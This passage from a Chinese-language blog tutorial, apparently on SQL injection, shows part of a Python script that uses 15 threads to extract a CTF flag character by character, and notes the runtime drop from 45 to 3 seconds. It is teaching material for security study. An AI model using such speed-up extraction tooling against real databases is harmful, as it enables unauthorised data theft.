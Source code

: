 ``` python
    length = 15
    ans = [None] * length
    with concurrent.futures.ThreadPoolExecutor(max_workers=length) as executor:
        futures = {executor.submit(get_char, i): i for i in range(length)}
        for future in concurrent.futures.as_completed(futures):
            index = futures[future]
            data = future.result()
            print_success(f"Index {index} is {data}")
            ans[index] = data

    print_success(f"flag: {flag}{''.join([n for n in ans if n != False])}")

start = time.time()
run()
print(f"time: {time.time() - start}s")
```

跑起來像這樣：

![](/img/posts/huli/sql-injection-in-action/p4.png)

我們開了 15 個 thread，時間從 45 秒降低成 3 秒，利用多執行緒讓整體速度提升了 15 倍。
